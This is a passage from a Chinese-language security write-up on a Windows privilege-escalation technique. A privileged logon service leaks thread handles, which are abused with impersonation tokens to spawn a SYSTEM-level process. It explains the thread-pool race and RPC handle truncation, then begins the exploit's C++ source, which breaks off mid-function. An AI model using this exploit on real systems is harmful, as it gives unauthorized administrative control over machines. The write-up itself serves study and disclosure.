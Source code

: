```
  return hToken;

｝

```

万事俱备。 我们启动一个线程来循环给泄漏的线程句柄设置系统模拟令牌。另一个线程里面我们调用CreateProcessWithLogon 直到新进程有有权限的令牌。我们能够通过检查主令牌来确定是否创建成功。因为默认情况下我们不能打开令牌，一旦我们打开了就成功了。

![p1][1]

这个简单的方法有个问题，就是线程池中有一堆线程可用，所以我们不能确保调用服务并且准确的调用到特定的线程。所以我们得运行n次，来获取到我们想要的句柄。只要我们拿到所有有可能拿到的线程的句柄，我们基本就十有八九成功了。

也许我们能通过调整线程优先级来提高可靠性。但是看起来这种方式也还可以，也不太会崩溃然后创建一个带无特权令牌的进程。在多个线程调用CreateProcessWithLogon也没有什么意义，因为服务有个全局锁防止重入。

我在文章最后粘上了利用代码。你需要确认下编译环境，位数是否正确，因为RPC调用可能会截断句柄。因为句柄值是指针，无符号数。当RPC方法转换32位句柄到64位句柄时会自动填充零，因此(DWORD)-2 不等于 (DWORD64)-2 ，会产生无效句柄值。

0x03 结论
=======

* * *

希望我通过这个文章描绘出了一个有趣的在有权限的服务中泄漏线程句柄的攻击方式。当然，它只在泄漏的线程句柄用作能够直接给予我们进程创建能力的服务，但是你也可以用这种方式创建任意文件或其他资源。你可以通过内存损坏利用技术来达到这个目的，但是你不一定需要这么做。

0x04 代码
=======

* * *

```
#include <stdio.h>
#include <tchar.h>
#include <Windows.h>
#include <map>

#define MAX_PROCESSES 1000

HANDLE GetThreadHandle()
{
  PROCESS_INFORMATION procInfo = {};
  STARTUPINFO startInfo = {};
  startInfo.cb = sizeof(startInfo);

  startInfo.hStdInput = GetCurrentThread();
  startInfo.hStdOutput = GetCurrentThread();
  startInfo.hStdError = GetCurrentThread();
  startInfo.dwFlags = STARTF_USESTDHANDLES;

  if (CreateProcessWithLogonW(L"test", L"test", L"test", 
               LOGON_NETCREDENTIALS_ONLY, 
               nullptr, L"cmd.exe", CREATE_SUSPENDED, 
               nullptr, nullptr, &startInfo, &procInfo))
  {
    HANDLE hThread;   
    BOOL res = DuplicateHandle(procInfo.hProcess, (HANDLE)0x4, 
             GetCurrentProcess(), &hThread, 0, FALSE, DUPLICATE_SAME_ACCESS);
    DWORD dwLastError = GetLastError();
    TerminateProcess(procInfo.hProcess, 1);
    CloseHandle(procInfo.hProcess);
    CloseHandle(procInfo.hThread);
    if (!res)
    {
      printf("Error duplicating handle %d\n", dwLastError);
```
